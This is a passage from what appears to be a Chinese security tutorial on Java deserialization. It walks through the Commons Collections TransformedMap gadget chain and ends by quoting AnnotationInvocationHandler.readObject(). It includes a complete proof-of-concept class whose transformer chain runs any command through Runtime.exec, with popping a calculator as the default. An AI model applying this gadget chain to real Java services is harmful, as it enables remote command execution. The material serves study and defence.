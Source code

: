     public class SetValueToExec {   
    
        public static void main(String[] args) throws Exception {
            String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app";
            String[] execArgs = command.split(","); 
    
            Transformer[] transforms = new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer(
                            "getMethod",
                            new Class[] {String.class, Class[].class},
                            new Object[] {"getRuntime", new Class[0]}
                    ),
                    new InvokerTransformer(
                            "invoke",
                            new Class[] {Object.class, Object[].class},
                            new Object[] {null, new Object[0]}
                    ),
                    new InvokerTransformer(
                            "exec",
                            new Class[] {String[].class},
                            new Object[] {execArgs}
                    )
            };
            Transformer transformerChain = new ChainedTransformer(transforms);
            Map tempMap = new HashMap<String, Object>();
            Map<String, Object> exMap = TransformedMap.decorate(tempMap, null, transformerChain);
            exMap.put("1111", "2222");
            for (Map.Entry<String, Object> exMapValue : exMap.entrySet()) {
                exMapValue.setValue(1);
            }
        }
    }
    

根据之前的分析，将上面这段代码编译运行后会默认会弹出计算器，对代码详细执行过程有疑惑的可以通过单步调试进行测试：

![p5](http://static.wooyun.org//drops/20151127/201511270930088588051.jpg)

然后我们现在只是测试了使用 `TransformedMap` 进行任意命令执行而已，要想在 Java应用反序列化的过程中触发该过程还需要找到一个类，它能够在反序列化调用 `readObject()` 的时候调用 `TransformedMap` 内置类`MapEntry` 中的 `setValue()` 函数，这样才能构成一条完整的 Gadget 调用链。恰好在`sun.reflect.annotation.AnnotationInvocationHandler` 类具有 `Map` 类型的参数，并且在`readObject()` 方法中触发了上面所提到的所有条件，其源码如下：

    
    
    #!java
    private void readObject(java.io.ObjectInputStream s) {
        ...省略...
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) {
                    memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(annotationType.members().get(name)));
                }
            }
        }
    }
    